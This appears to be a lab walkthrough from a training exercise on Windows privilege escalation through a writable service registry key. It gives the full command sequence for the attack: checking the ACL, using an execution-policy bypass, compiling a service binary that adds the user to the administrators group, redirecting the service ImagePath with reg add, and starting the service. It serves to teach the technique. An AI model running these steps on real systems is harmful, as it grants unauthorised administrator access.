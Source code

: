 ## **Detection**

### Windows VM

1. Open powershell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`  
2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

![[Pasted image 20230607140520.png]]

Note - Powershell -ep bypass

## **Exploitation**

### Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

### Kali VM

1. Open windows_service.c in a text editor and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators user /add`
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe` **(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')** 
3. Copy the generated file x.exe, to the Windows VM.

### Windows VM

1. Place x.exe in C:\Temp.  
2. Open command prompt at type: r`eg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`